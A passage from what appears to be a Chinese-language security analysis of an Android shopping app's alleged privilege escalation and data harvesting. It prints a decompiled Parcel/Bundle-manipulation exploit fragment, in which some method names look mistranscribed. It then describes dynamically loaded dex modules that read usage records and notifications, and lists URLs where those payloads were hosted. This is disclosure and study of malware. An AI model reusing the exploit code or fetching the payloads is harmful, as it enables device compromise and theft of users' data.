  ```
	obtain2.writeString("intent");
	obtain2.writeInt(4);
	obtain2.writeString("android.content.Intent");
	obtain2.writeToParcel(obtain3, 0);
	obtain2.appendFrom(obtain3, 0, obtain3.dataSize());
	int dataPosition2 = obtain2.dataPosition();
	obtain2.setDataPosition(dataPosition2 - 4);
	obtain2.writeInit(dataPosition2 -dataPosition);
	obtain2.setdataPosition(dataPosition2);
	int dataSize = obtain2.dataSize();
	obtain.writeInt(dataSize);
	obtain.writeInt(1279544898);
	obtain.appendFrom(obtain2, 0, dataSize);
	obtain.setDataPosition(0);
	bundle.readFromParcel(obtain);
	return bundle;
}
```


提权后，就开始瞎搞了，动态下发dex，开始给自己保活，防卸载，然后搞数据，这部分代码比较通俗易懂，
比如：  
1a68d982e02fc22b464693a06f528fac.dex    读取用户手机上的app使用记录  
95cd95ab4d694ad8bdf49f07e3599fb3.dex    读取用户手机的应用通知，这一波各大公司app全灭了吧？  

自己去dex目录看吧。  

  
  部分dex文件的下载地址（3月3日已被拼多多从CDN服务器上删除）：  
  https://commfile.pddpic.com/galerie-go/spirit/sd1000/dex/f4247da0-6274-44eb-859a-b4c35ec0dd71.dex  
  https://commfile.pddpic.com/galerie-go/spirit/sd1000/dex/f4247da0-6274-44eb-859a-b4c35ec0dd71.dex  
  https://commfile.pddpic.com/galerie-go/spirit/sd1000/dex/f4247da0-6274-44eb-859a-b4c35ec0dd71.dex  
  https://commfile.pddpic.com/galerie-go/spirit/sd1000/dex/f4247da0-6274-44eb-859a-b4c35ec0dd71.dex  
  https://commfile.pddpic.com/galerie-go/spirit/sd1000/dynamic/45783d15-9f56-43a7-b3c7-930872f91c9b.dex  
  https://commfile.pddpic.com/galerie-go/spirit/sd1000/dynamic/45783d15-9f56-43a7-b3c7-930872f91c9b.dex  
  https://commfile.pddpic.com/galerie-go/spirit/sd1000/dynamic/45783d15-9f56-43a7-b3c7-930872f91c9b.dex  
  https://commfile.pddpic.com/galerie-go/spirit/sd1000/dynamic/4a72c6bb-337c-46c4-8c9c-637efafdd1c6.dex  
  https://commfile.pddpic.com/galerie-go/spirit/sd1000/dynamic/61517b68-7c09-4021-9aaa-cdebeb9549f2.dex  
  https://commfile.pddpic.com/galerie-go/spirit/sd1000/dynamic/78afc1cd-60da-482b-90e7-4d5e72a01266.dex  
  https://commfile.pddpic.com/galerie-go/spirit/sd1000/dynamic/f9b6b139-4516-4ac2-896d-8bc3eb1f2d03.dex  
  https://commfile.pddpic.com/galerie-go/spirit/sd1000/hw/6932a923-9f13-4624-bfea-1249ddfd5505.dex  
  https://commfile.pddpic.com/galerie-go/spirit/sd1000/hw/7c6e6702-e461-4315-8631-eee246aeba95.dex  
  https://commfile.pddpic.com/galerie-go/spirit/sd1000/hw/8c34f5dc-f04c-40ba-98d4-7aa7c364b65c.dex  
  https://commfile.pddpic.com/galerie-go/spirit/sd1000/hw/a3937709-b9cc-48fd-8918-163c9cb7c2df.dex  
  https://commfile.pddpic.com/galerie-go/spirit/sd1000/hw/a4d4dccf-1f8c-48e3-acd5-92cdf156e585.dex  
  https://commfile.pddpic.com/galerie-go/spirit/sd1000/hw/e9ded9d4-1c94-47d0-8e8b-94aa773af81c.dex  
  https://commfile.pddpic.com/galerie-go/spirit/sd1000/oppo/4569a29c-b5a8-4dcf-a3a6-0a2f0bfdd493.dex  
  https://commfile.pddpic.com/galerie-go/spirit/sd1000/oppo/538278f3-9f68-4fce-be10-12635b9640b2.dex  
  https://commfile.pddpic.com/galerie-go/spirit/sd1000/oppo/75dcc8ea-d0f9-4222-b8dd-2a83444f9cd6.dex  
  https://commfile.pddpic.com/galerie-go/spirit/sd1000/oppo/7c3507cc-c1a7-4c97-bfa3-e70b938d8f07.dex  
  https://commfile.pddpic.com/galerie-go/spirit/sd1000/oppo/7c3507cc-c1a7-4c97-bfa3-e70b938d8f07.dex  
  https://commfile.pddpic.com/galerie-go/spirit/sd1000/oppo/7ce6d296-a5bd-4718-9f79-543621ba5422.dex  
  https://commfile.pddpic.com/galerie-go/spirit/sd1000/oppo/e723d560-c2ee-461e-b2a1-96f85b614f2b.dex  
  https://commfile.pddpic.com/galerie-go/spirit/sd1000/oppo/f0139a82-8bb6-4f3e-a81b-70200fc38eaa.dex  
  https://commfile.pddpic.com/galerie-go/spirit/sd1000/sdlog/218a37ea-710d-49cb-b872-2a47a1115c69.dex  
  https://commfile.pddpic.com/galerie-go/spirit/sd1000/vivo/136d4651-df47-41b4-bb80-2ec0ab1bc775.dex  
  https://commfile.pddpic.com/galerie-go/spirit/sd1000/vivo/4f260398-e9d1-4390-bbb9-eeb49c07bf3c.dex  
  https://commfile.pddpic.com/galerie-go/spirit/sd1000/vivo/7dee63bd-ebad-4d74-a06f-90750aa18e18.dex  